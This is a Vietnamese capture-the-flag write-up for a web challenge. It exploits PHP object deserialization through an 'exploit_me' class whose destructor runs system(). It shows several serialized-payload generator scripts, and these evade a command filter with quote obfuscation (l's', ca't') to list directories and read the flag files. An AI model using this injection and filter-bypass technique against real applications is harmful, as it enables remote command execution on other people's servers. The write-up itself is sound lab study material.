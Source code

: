 # Faster (Web)

> Description: Bạn có thể nhanh hơn throw Exception() không?

## Exploit

- Truy cập vào challenge, đầu tiên chương trình có một class là `exploit_me`, sau đó chương trình sẽ lấy parameter `payload` trong url, sau đó lọc qua các luật, nhằm tránh thực hiện các câu lệnh để có thể tìm flag, sau đó thì sẽ deserialize `payload` và thực thi

  ![first-look.png](images/first-look.png)

- Dựa vào class ở trên ta sẽ thử xem có thực hiện câu lệnh được không với `pwd`, và đang ở `/var/www/html`

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd = "pwd";
    echo serialize($payload);
  ?>
  ```

  ![serial-pwd.png](images/serial-pwd.png)

  ![serial-pwd-success.png](images/serial-pwd-success.png)

- Sau đó ta sẽ kiểm tra root của machine, vì lệnh `ls` đã bị block, ta sẽ bypass: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-paths-and-forbidden-words. Thấy rằng có 2 file flag, ta sẽ kiểm tra cả 2 flag

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd = "l's' ../../..";
    echo serialize($payload);
  ?>
  ```

  ![serial-ls-root.png](images/serial-ls-root.png)

  ![serial-ls-root-success.png](images/serial-ls-root-success.png)

- File `dd810fc36330c200a_flag`

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd="ca't' ../../../dd810fc36330c200a_flag";
    echo serialize($payload);
  ?>
  ```

  ![serial-cat-fake-flag.png](images/serial-cat-fake-flag.png)

  ![fake-flag.png](images/fake-flag.png)

- File `a8749209e3d652e_flag`

  ```php
  <?php
    class exploit_me
    {
        public $cmd;
        public function __destruct(){
            system($this->cmd);
        }
    }

    $payload = new exploit_me();
    $payload->cmd = "ca't' ../../../a8749209e3d652e_flag";
    echo serialize($payload);
  ?>
  ```

  ![serial-cat-flag.png](images/serial-cat-flag.png)

  ![flag.png](images/flag.png)

> Flag: Wanna.One{Fast_detruct_is_tooooooooo_easy_for_you_!!!}
